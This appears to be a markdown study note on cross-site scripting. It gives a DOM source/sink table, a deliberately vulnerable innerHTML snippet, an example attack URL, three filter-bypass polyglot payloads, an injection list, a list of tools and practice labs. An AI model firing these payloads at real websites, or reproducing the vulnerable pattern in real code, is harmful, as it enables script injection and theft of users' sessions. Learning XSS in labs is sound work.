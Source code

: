 ## XSS
#### Reflective XSS
#### Stored XSS
**example1: **
[Myspace Worm - Stored XSS](https://samy.pl/popular/tech.html)

**example2:**
[Tweetdeck Worm - Stored XSS](https://threatpost.com/tweetdeck-taken-down-in-wake-of-xss-attacks/106597)

#### DOM XSS
##### DOM XSS - What to Look For?
|Sources|Sinks|
|-|-|
|document.url|element.innerHTML()|
|document.referrer|element.outerHTML()|
|location|eval()|
|location.href|setTimeout()|
|location.search|setInterval()|
|location.hash|document.write()|
|location.pathname|document.writeIn()|
##### DOM XSS -What does it look like?
```javascript
<!DOCTYPE html>
<html>
    <body>
        <script>
            var source = "Hello " + decodeURIComponent(location.hash.split("#")[1]); //Source
            var divElement = document.createElement("div");
            divElement.innerHTML = source; //Sink
            document.body.appendChild(divElement);
        </script>
    </body>
</html>
```
```
GET www.vulnerable-website.example#<img src="test" onerror="alert('XSS')">
```
##### XSS Polyglot #1(RSnake)
```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,
83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromChar
Code(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(
88,83,83))</SCRIPT>
```
Multi-context, filter bypass based polyglot payload #1 (OWASP [XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet))

##### XSS Polyglot #2 (0xsobky)
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert()
)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/
--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

##### XSS Polyglot #3 (Ashar Javed)
```
'">><marquee><img src=x
onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouse
over=prompt(1)><script>prompt(1)</script>@gmail.com<isindex
formaction=javascript:alert(/XSS/)
type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&
lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img
src="http://i.imgur.com/P8mL8.jpg">
```
Multi-context, filter bypass based polyglot payload #2 (Ashar Javed [XSS Research](http://slides.com/mscasharjaved/cross-site-scripting-my-love#/))

#### Blind XSS


#### Flash-based XSS
#### Self XSS

## Best Practices
- start slow
- Don't get discouraged!
- Keep a list of common payloads
- Use Burp Intruder

**Injections list**
```
"
">
"><>
"><script>
"></script>
"><script>alert(1)</script>
"><script>confirm(1)</script>
...
```

## Tools
##### Tooling
* Blind 
    * XSSTrike
    * XSS Hunter
    * Sleepy Puppy
    * KnoXSS


[XSSTrike](https://github.com/s0md3v/XSStrike)

##### XSSHunter (Blind)
Payload:
* The vulnerable page's URI
* Origin of Execution
* The Victim's IP Address
* The Page Referer
* The Victim's User Agent
* All Non-HTTP-Only Cookies
* The Page's Full HTML DOM
* Full Screenshot of the Affected Page
* Responsible HTTP Request(If an XSS Hunter compatible tool is used)

## Labs

[bWapp](http://www.itsecgames.com/)

bWapp Section - A3 - Cross-Site Scripting (XSS)
>Cross-Site Scripting - Reflected (GET)
Cross-Site Scripting - Reflected (POST)
Cross-Site Scripting - Reflected (JSON)
Cross-Site Scripting - Reflected (AJAX/JSON)
Cross-Site Scripting - Reflected (AJAX/XML)
Cross-Site Scripting - Reflected (Back Button)
Cross-Site Scripting - Reflected (Custom Header)
Cross-Site Scripting - Reflected (Eval)
Cross-Site Scripting - Reflected (HREF)
Cross-Site Scripting - Reflected (Login Form)
Cross-Site Scripting - Reflected (phpMyAdmin)
Cross-Site Scripting - Reflected (PHP_SELF)
Cross-Site Scripting - Reflected (Referer)
Cross-Site Scripting - Reflected (User-Agent)
Cross-Site Scripting - Stored (Blog)
Cross-Site Scripting - Stored (Change Secret)
Cross-Site Scripting - Stored (Cookies)
Cross-Site Scripting - Stored (SQLiteManager)
Cross-Site Scripting - Stored (User-Agent)

Additional Labs
[PentesterLab](https://pentesterlab.com/exercises?dir=desc&only=free&sort=published_at)
Pentesterlab
* XSS and MYSQL FILE
* Web for Pentester
* Web for Pentester II
